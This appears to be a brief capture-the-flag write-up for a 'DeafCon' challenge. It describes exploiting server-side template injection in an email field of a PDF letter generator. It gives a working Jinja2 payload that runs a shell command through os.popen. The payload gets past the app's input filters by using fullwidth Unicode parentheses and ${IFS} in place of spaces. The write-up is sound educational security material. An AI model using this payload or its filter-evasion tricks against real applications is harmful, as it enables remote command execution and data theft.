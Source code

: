 ## DeafCon 
> Deafcon 2022 is finally here! Make sure you don't miss it.

App have genarate letter pdf function that vulnerable to SSTI on `email` field. After quick fuzzing i detect that email must have '@' and app filter (, ) and space char
Then i use `UTF8 encoding` to bypass (, ) and `{IFS}` to bypass space in command.
`test%40{{config.__class__.__init__.__globals__.os.popen%EF%BC%88'cat${IFS}flag.txt'%EF%BC%89.read%EF%BC%88%EF%BC%89}}`
Flag: ![Alt text](flag.png?raw=true "Title")
